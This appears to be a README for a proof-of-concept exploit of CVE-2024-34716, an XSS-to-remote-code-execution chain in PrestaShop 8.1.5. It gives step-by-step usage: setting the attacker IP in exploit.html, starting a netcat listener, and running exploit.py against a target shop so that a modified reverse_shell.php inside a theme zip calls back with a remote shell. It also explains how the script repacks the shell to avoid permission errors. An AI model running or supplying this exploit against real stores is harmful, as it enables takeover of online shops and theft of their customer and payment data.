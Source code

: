 # CVE-2024-34716_PoC


More technical details can be found on https://ayoubmokhtar.com/post/png_driven_chain_xss_to_remote_code_execution_prestashop_8.1.5_cve-2024-34716/


This version automates the editing of the reverse_shell.php file inside the 1337.zip theme file. Most people have been having trouble with this PoC exploit as some people unpack the theme, edit the shell, repack the theme, which changes file permissions and the exploit gives 403 Forbidden errors. 

Modify exploit.html:

`httpServerIp` should be your attacker-ip. 

`const path = 'put-the-admin-path-here';` Modify this to the correct path where PrestaShop can be found.


Start a netcat listener on whatever port you want, for example 1002

`nc -lvnp 1002`

Then run the exploit:

`python3 exploit.py http://shop.prestashop.tld/ 'registered_email@shop.prestashop.tld' 'Message Text' exploit.html YOUR_IP YOUR_PORT`


`python3 exploit.py http://shop.prestashop.tld/ 'hash@hash.com' 'pwn' exploit.html 10.10.14.88 1002`

The script will edit the reverse_shell.php file located in the current directory, and use the zip command with the -u flag to update the zip file with the modified shell.

![](https://gitlab.com/hashborgir/prestashop-cve-2024-34716/-/raw/main/PoC.png?ref_type=heads)
